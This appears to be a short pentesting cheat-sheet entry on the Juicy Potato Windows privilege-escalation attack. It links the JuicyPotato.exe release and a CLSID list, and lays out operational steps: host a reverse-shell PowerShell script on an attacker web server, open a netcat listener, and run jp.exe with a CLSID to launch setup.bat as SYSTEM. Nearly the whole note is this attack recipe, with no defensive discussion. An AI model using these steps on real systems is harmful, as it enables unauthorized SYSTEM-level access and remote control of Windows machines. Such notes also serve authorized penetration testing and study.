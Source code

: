 # Juicy Potato Attack

## Juicy Potato Attack
 - [OHPE GitHub Juicy-Potato](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe)
 - [OHPE CLSID by Operating System](https://ohpe.it/juicy-potato/CLSID/)

```
- Setup www webserver on attacking machine (8000)
- Place your rev.ps1 into the www webserver
- Move a copy of setup.bat to your attacking host, or besure the contents have the PowerShell command
- Setup nc listener on 12345 (or whatever port, change rev.ps1 port if different)
- .\jp.exe -t * -p c:\windows\temp\setup.bat -l 1337 -c '{{e60687f7-01a1-40aa-86ac-db1cbf673334}}'
```